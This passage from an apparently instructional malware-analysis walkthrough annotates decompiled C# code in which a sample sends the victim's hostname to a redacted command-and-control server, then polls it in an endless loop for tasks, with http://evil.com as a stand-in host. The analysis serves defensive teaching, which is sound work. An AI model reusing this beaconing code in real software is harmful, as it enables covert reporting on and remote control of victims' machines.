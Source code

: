 ```
// 1. Retrieves the victim machine's hostname via Dns.GetHostName function and stores it to a variable.
string hostName = Dns.GetHostName();

// 2. Initialisation of HTTP URL together with the data to be submitted to the /reg endpoint.
string str = "http://REDACTED C2 DOMAIN";
string url = str + "/reg";
string data = "name=" + hostName;

// 3. Execution of the HTTP POST request to the target URL (str variable) together with the POST data that contains the hostname of the victim machine (data variable).
// It is also notable that the response from the HTTP request is being stored in another variable (str2)
string str2 = Program.PostIt(url, data);

// 4. Initialisation of other variables, which will be used in the following code lines.
int count = 15000;
bool flag = false;
```

As you can see, most of the lines in this section are all about initialising values in a variable. However, there are two notable function calls made:

- The call to the Dns.GetHostName function that retrieves the victim machine's hostname. The attempt to distinguish the compromised machines based on their hostnames is typical malware behaviour.
- We have already discussed the PostIt function, and we know that it makes a POST request to the URL (first argument) and submits the hostname as its POST data (second argument). In this initial step, it seems that the malware reports the hostname of the compromised machine first to establish the C2 connection before executing the other functionalities.

2. Code inside the for loop before the code block of the if statement

In this section, you'll see that the for loop is written without any initialised values on the initialisation, condition, and increment sections (for (;;)). This means the loop will run indefinitely until a break statement is used. 

Afterwards, the first line inside the loop block uses the Sleeper function, wherein the count variable is being passed. Remember that this variable was already initialised before the for-loop statement.

The following code lines are variable initialisation, wherein the str & str2 variables are used (e.g. if the value of str is http://evil.com and the value of str2 is TEST, the resulting value for the url2 variable is http://evil.com/tasks/TEST).

Eventually, the url2 variable is used by the GetIt function to do a GET request to the passed URL and the result is stored in the it variable. 

Lastly, the execution flow will enter the if statement only if the it variable is not empty. You may view the detailed annotations in the code snippet below:

```
// 1. This for loop syntax signifies a continuous loop since it has no values set to initialisation, condition, and iteration.
for (;;)
{
    // 2. The Sleeper function is being used together with the count variable, which was initialised prior to the for loop block.
    Program.Sleeper(count);
    
    // 3. Initialisation of other variables, together with the str variable, which contains
    string url2 = str + "/tasks/" + str2;
    string url3 = str + "/results/" + str2;

    // 4. HTTP GET request to url2 variable. The url2 variable equates to domain + "/tasks/" + response to the first POST request made (str variable holds the base URL used by the malware, while str2 holds the response to the first POST request).
    string it = Program.GetIt(url2);
```